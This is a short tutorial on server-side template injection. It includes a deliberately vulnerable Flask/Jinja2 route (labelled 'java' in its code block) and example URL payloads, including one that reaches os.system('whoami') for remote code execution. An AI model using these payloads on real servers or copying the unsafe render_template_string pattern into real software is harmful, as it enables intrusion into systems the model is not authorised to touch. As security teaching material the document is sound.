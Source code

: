 SSTI is a vulnerability that occurs when user input is unsafely embedded within a server-side template engine. This can lead to the execution of arbitrary code on the server, potentially compromising the application and its underlying system.

#### Why Does SSTI Occur?

Template engines are used to generate dynamic content in web applications. If user input is not properly validated or escaped before being processed by the template engine, an attacker may inject malicious payloads that get executed on the server.

#### Commonly Affected Template Engines

SSTI can affect various template engines across different programming languages, including:

- **Python** → Jinja2, Mako, Tornado
- **PHP** → Smarty, Twig
- **Java** → Freemarker, Velocity
- **Node.js** → Pug (formerly Jade), Handlebars
- **Ruby** → ERB

## Example of SSTI exploitation

**Vulnerable Code (Jinja2 - Python)**

```java
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet', methods=['GET'])
def greet():
    user_input = request.args.get('name', 'Guest')
    template = f"Hello {user_input}!"
    return render_template_string(template)
```

**Exploitation**
An attacker can send a payload like:
```bash
http://example.com/greet?name={{7*7}}
```

If vulnerable, the server will process the template and return:
```bash
Hello 49!
```

This confirms that the server is evaluating user input as code. An attacker could then escalate the attack to execute arbitrary code, such as:
```bash
http://example.com/greet?name={{config.__class__.__init__.__globals__['os'].system('whoami')}}
```